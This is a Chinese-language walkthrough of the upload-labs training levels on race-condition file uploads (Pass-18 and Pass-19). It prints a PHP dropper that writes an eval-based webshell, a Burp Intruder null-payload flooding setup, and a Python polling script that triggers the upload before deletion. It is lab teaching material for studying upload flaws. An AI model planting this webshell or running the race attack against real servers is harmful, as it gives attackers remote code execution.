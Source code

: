 * 原理

    通过查看代码可以发现，页面先使用move_uploaded_file()函数将文件上传到服务器
    
    然后再检测文件的后缀是否符合白名单规定

    然后定义新的图片路径

    如果上传的文件不符和白名单限定，就会使用unlink函数执行删除操作。

    >newname函数

    尝试把 oldname 重命名为 newname，必要时会在不同目录间移动。 如果重命名文件时 newname 已经存在，将会覆盖掉它。 如果重命名文件夹时 newname 已经存在，本函数将导致一个警告。 

    >关于条件竞争

    条件竞争漏洞是一种服务器端的漏洞，是由于开发者设计应用程序并发处理时操作逻辑不合理而造成。当应用面临高并发的请求时未能同步好所有请求，导致请求与请求产生等待时出现逻辑缺陷，该漏洞一般出现在与数据库系统频繁交互的位置，例如金额同步、支付等较敏感操作处。另外条件竞争漏洞也会出现在其他位置，例如文件的操作处理等。

    代码执行是需要时间的，只要在删除前执行上传文件中的代码就可以达到目的，所以这需要我们不断地对网站发出上传请求，并不断地对其进行访问，总有那么一瞬间我们的代码是被执行了的。

* 步骤

    >基本思想就是，向该页面连续发出大量的请求，从而使得页面的函数执行顺序发生变化。


    >参见[upload-labs pass 17-18](https://www.zhaosimeng.cn/writeup/74.html)

    写一个需要上传的文件xieru.php

        <?php
        fputs(fopen('shell.php','w'),'<?php @eval($_POST["x"])?>');
        ?>

    即使上传的文件可能被爆破时产生的上传文件覆盖并被删除，但是脚本成功上传的一瞬间被访问的一瞬间会在当前目录下生成shell.php，只要访问shell.php并用蚁剑连接，就可以获取shell。

    不断上传一个php文件，用bp进行拦截，使用爆破模块不断发出请求。爆破的payload选项可以选择为null payload。

    配置Payload type是Null payloads。也就是不设置payload。下方的Continue indefinitely也就是无限重放的意思

    写脚本执行脚本对网页进行不断地访问。

        import requests

        url="http://uploadlabs/upload/xieru.php"

        while True:

        html = requests.get(url)
        if html.status_code == 200:
            print("OK")
            break
    
    执行脚本出现ok表示上传成功，蚁剑连接即可

*** 
# Pass-19(条件竞争:图片)

* 原理

    这一关的源码非常长，首先定义了一个白名单，首先将文件后缀与白名单进行比较，如果不符合就无法传输到服务器，需要制作图片马，上传之后会检测是否已经存在相同的文件名，如果存在就对其进行重命名，使用图片马上传，然后再结合文件包含或者是apache解析漏洞对其进行执行。

* 步骤

    将之前的代码制作成图片马上传到服务器，然后使用文件包含漏洞不断对图片马中的函数进行读取。




